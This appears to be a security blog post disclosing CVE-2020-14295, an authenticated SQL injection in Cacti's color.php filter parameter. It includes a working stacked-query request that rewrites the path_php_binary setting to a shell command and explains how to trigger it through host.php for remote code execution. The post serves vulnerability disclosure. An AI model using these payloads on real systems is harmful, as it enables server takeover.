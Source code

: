 ```yaml
---
layout: post
title:  "CACTI - Authenticated RCE (CVE-2020-14295)"
category : CVE
tags :  CVE
---
```


## Description

sqli as admin v1.2.7 to v1.2.12

There is an sql injection on the latest version, in the  `/cacti/color.php` page on the parameter filter.

![cacti SQLI](/assets/blog/cacti-sqli.png)

## To Reproduce

- Steps to reproduce the behavior:

```
/cacti/color.php?action=export&header=false&filter=')<SQLI HERE>--+-
```

## Escalate SQLI to RCE

- As the application accept stacked queries, this can easy lead to remote code execution by replacing the path_php_binary setting inside the database.

```
GET /cacti/color.php?action=export&header=false&filter=1');update+settings+set+value='touch+/tmp/sqli_from_rce;'+where+name='path_php_binary';--+- 
```

- Then call `host.php?action=reindex` and get the shell_exec called with the path_php_binary.

![cacti RCE](/assets/blog/cacti-rce.png)

## Links
- Orignal issue : [https://github.com/Cacti/cacti/issues/3622](https://github.com/Cacti/cacti/issues/3622)
- The metasploit exploit : [https://www.exploit-db.com/exploits/49810](https://www.exploit-db.com/exploits/49810)